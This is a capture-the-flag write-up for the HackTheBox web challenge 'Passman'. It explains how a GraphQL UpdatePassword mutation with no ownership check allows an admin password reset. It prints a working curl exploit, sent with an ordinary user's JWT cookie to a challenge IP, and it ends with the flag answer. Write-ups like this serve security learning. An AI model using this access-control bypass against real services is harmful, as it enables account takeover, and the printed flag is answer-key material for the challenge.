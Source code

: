 web_passman
# Web: Passman
> Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?


#### Difficulty: easy

We are given a zip file that contains several files, notably: the `challenge` directory which contains the source code, `Dockerfile`, `build-docker.sh` and `entrypoint.sh`.

Running `npm audit` did not give any immediate high severity CVEs, only a moderate one on jsonwebtoken. After reviewing the database and JWT implementation, I concluded that neither are vulnerable.

Looking through the `challenge` folder, I spotted `GraphqlHelper.js`. After some googling, I found out that `graphiql` can be set to true to get a web GUI for graphql. I set this to true in `index.js` as I am inexperienced with GraphQL. After building and running the image using `./build-docker.sh`, I was able to access the graphiql interface via `http://localhost:1337/graphql`.

After studying the `GraphqlHelper.js` file, I saw that the `UpdatePassword` mutation will let me update using just a username, the desired password, and any token. I created a new user and used the token from that user to authorize the mutation that I sent via curl:

```
curl 'http://165.232.98.59:32321/graphql' \
  -X POST \
  -b 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5NDU5MDA2fQ.05Wu_XqtvAlyGhGtZRMF9uLDAzSgt1bXuvFPjq56Pig' \
  -H 'content-type: application/json' \
  --data '{
    "query":"mutation { UpdatePassword(username: \"admin\", password: \"admin\") {message token}}"
  }'
 ```

After executing the command above, I logged in as admin, which gave the phrases for the admin user, which gave me the flag:

`HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`
